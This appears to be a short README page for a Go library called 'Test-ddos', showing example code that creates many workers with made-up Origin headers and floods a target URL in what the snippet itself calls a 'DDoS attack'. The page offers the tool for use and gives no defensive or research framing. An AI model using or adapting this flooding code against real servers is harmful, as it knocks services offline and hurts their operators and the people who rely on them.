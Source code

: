 #  Test-ddos

## lib simple attack fetch ddos

```go
	var origins = []string{}
			for i := 0; i < workers; i++ {
				origins = append(origins, fmt.Sprintf("http://example%v.com", i))
			}
			d, err := ddos.New(url, workers, method, "", origins)
			if err != nil {
				panic(err)
			}
			d.Run()
			d.Result()
			fmt.Printf("\nDDoS attack server:%s", url)
```